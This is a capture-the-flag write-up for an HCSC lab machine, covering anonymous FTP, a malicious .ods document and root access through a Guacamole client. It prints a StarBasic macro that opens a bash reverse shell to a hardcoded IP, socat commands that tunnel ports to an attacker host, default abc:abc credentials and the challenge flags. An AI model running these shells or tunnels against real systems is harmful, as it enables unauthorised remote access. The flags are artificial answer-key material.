 # Services

There were 2 ports given this time. The ports are running the usual services, HTTP and FTP on the default ports.

The webserver serves a maintenance message after a cyber incident.

![](screenshots/1.png)

The FTP server can be accessed anonymously. 

In the `to_process` folder a script is processing the files and the resulting report is dropped in the `process_result` folder. Every extension is processed. There are interesting results already in the output folder that might be the leftover of the attack above. Those files have bash outputs and the `to_process` folder has a stuck example.

# Excel VBA

Analyzing the [test2.ods](workdir/malwares.zip) file, it has a script/macro. The ods format is just a zip, where the macro is simple text: `test2.ods.zip\Basic\Standard\Module1.xml`.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE script:module PUBLIC "-//OpenOffice.org//DTD OfficeDocument 1.0//EN" "module.dtd">
<script:module xmlns:script="http://openoffice.org/2000/script" script:name="Module1" script:language="StarBasic" script:moduleType="normal">REM  *****  BASIC  *****
 
 
    Sub OnLoad
      Dim os as string
      os = GetOS
      If os = "windows" OR os = "osx" OR os = "linux" Then
        Exploit
      end If
    End Sub
 
    Sub Exploit
      Shell("/bin/bash -i >& /dev/tcp/172.17.0.1/8081 0>&1")
    End Sub
 
    Function GetOS() as string
      select case getGUIType
        case 1:
          GetOS = "windows"
        case 3:
          GetOS = "osx"
        case 4:
          GetOS = "linux"
      end select
    End Function
 
    Function GetExtName() as string
      select case GetOS
        case "windows"
          GetFileName = "exe"
        case else
          GetFileName = "bin"
      end select
    End Function
    
</script:module> 

```

The previous attack can be reused and the command can be replaced with our favorite reverse shell. The other folders can be used to upload other executables for example.

![](screenshots/2.png)

# Flag local
`{HCSC}-LocaLFl4G!F0r_Tanu;`

# RDP service

There are other services running on port `3000` and `3389` as root.

![](screenshots/3.png)

On port `3000`, it is a `Guacamole Client` web based remote desktop client (`/gclient/app.js`, `/usr/sbin/guacd`).

![](screenshots/4.png)

The `/gclient/`[app.js](workdir/gclient/app.js) file is readable.

```
// LinuxServer Guacamole Client
 
//// Env variables ////
var CUSTOM_PORT = process.env.CUSTOM_PORT || 3000;
var CUSTOM_USER = process.env.CUSTOM_USER || 'abc';
var PASSWORD = process.env.PASSWORD || 'abc';
var RDP_HOST = process.env.RDP_HOST || '127.0.0.1';
var RDP_PORT = process.env.RDP_PORT || '3389';
var AUTO_LOGIN = process.env.AUTO_LOGIN || null;
var SUBFOLDER = process.env.SUBFOLDER || '/';
var TITLE = process.env.TITLE || 'Guacamole Client';
var CYPHER =process.env.CYPHER || 'LSIOGCKYLSIOGCKYLSIOGCKYLSIOGCKY';
var FM_NO_AUTH = process.env.FM_NO_AUTH || 'false';
var FM_HOME = process.env.FM_HOME || '/config';
var KEYBOARD = process.env.KEYBOARD || 'en-us-qwerty';
```

On port 3389 it is probably a regular remote desktop running (`/usr/sbin/xrdp`).

Using the `abc:abc` credentials from the Guacamole config file logs us in as root.

![](screenshots/5.png)

There are some other connection information in `/root/cassandra_conn.info`, but was not used anywhere.

# Flag root
`{HCSC};R0oTFl@G[4]!Tanu`

# Tunnel

The port `3000` used by the Guacamole Client can not be accessed from the outside. With `socat` or similar, a tunnel can be built with an outgoing tcp connection (TCP Gender Changer).

```bash
# Attacker
sudo socat TCP-LISTEN:8888,reuseaddr,fork TCP-LISTEN:81,reuseaddr
# Client Guacamole
/srv/hcsc/ftp/socat TCP:10.8.0.15:81,forever,interval=1,fork TCP:localhost:3000
# Client RDP
/srv/hcsc/ftp/socat TCP:10.8.0.15:81,forever,interval=1,fork TCP:localhost:3389 
```

Afterwards on port `8888` on the attacker machine, the service can be accessed. The Guacamole was good, as it already logs us in with the user.

![](screenshots/6.png)

![](screenshots/7.png)